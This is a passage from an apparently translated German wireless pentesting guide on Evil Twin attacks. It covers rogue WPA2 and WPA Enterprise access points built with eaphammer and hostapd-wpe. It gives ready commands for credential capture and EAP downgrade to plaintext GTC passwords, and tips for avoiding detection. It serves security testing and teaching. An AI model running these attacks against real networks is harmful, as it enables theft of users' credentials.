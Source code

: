 Sie können einen **Evil Twin mit WPA/2** erstellen, und wenn die Geräte so konfiguriert sind, dass sie sich mit diesem SSID über WPA/2 verbinden, werden sie versuchen, sich zu verbinden. Jedenfalls müssen Sie **auch wissen**, das **Passwort**, das der Client verwenden wird, um den **4-Wege-Handshake abzuschließen**. Wenn Sie es **nicht wissen**, wird die **Verbindung nicht abgeschlossen**.
```bash
./eaphammer -i wlan0 -e exampleCorp -c 11 --creds --auth wpa-psk --wpa-passphrase "mywifipassword"
```
### Enterprise Evil Twin

Um diese Angriffe zu verstehen, empfehle ich, vorher die kurze [WPA Enterprise Erklärung](./#wpa-enterprise-mgt) zu lesen.

**Verwendung von hostapd-wpe**

`hostapd-wpe` benötigt eine **Konfigurations**datei, um zu funktionieren. Um die Erstellung dieser Konfigurationen zu **automatisieren**, könnten Sie [https://github.com/WJDigby/apd\_launchpad](https://github.com/WJDigby/apd_launchpad) verwenden (laden Sie die Python-Datei im _/etc/hostapd-wpe/_ herunter).
```bash
./apd_launchpad.py -t victim -s PrivateSSID -i wlan0 -cn company.com
hostapd-wpe ./victim/victim.conf -s
```
In der Konfigurationsdatei können Sie viele verschiedene Dinge auswählen, wie ssid, Kanal, Benutzerdateien, cret/key, dh-Parameter, wpa-Version und Auth...

[**Verwendung von hostapd-wpe mit EAP-TLS, um jede Zertifikat-Anmeldung zu ermöglichen.**](evil-twin-eap-tls.md)

**Verwendung von EAPHammer**
```bash
# Generate Certificates
./eaphammer --cert-wizard

# Launch Attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```
Standardmäßig bietet EAPHammer diese Authentifizierungsmethoden an (beachten Sie GTC als die erste, die versucht, Klartextpasswörter zu erhalten, und dann die Verwendung robusterer Authentifizierungsmethoden):
```
GTC,MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,TTLS-PAP,TTLS-MSCHAP,MD5
```
Dies ist die Standardmethodik, um lange Verbindungszeiten zu vermeiden. Sie können jedoch auch angeben, die Authentifizierungsmethoden vom schwächsten zum stärksten zu servieren:
```
--negotiate weakest
```
Oder Sie könnten auch verwenden:

* `--negotiate gtc-downgrade` um eine hocheffiziente GTC-Downgrade-Implementierung (Klartext-Passwörter) zu verwenden
* `--negotiate manual --phase-1-methods PEAP,TTLS --phase-2-methods MSCHAPV2,GTC,TTLS-PAP` um die angebotenen Methoden manuell anzugeben (das Anbieten der gleichen Authentifizierungsmethoden in derselben Reihenfolge wie die Organisation macht den Angriff viel schwieriger zu erkennen).
* [Finden Sie weitere Informationen im Wiki](http://solstice.sh/wireless/eaphammer/2019/09/10/eap-downgrade-attacks/)
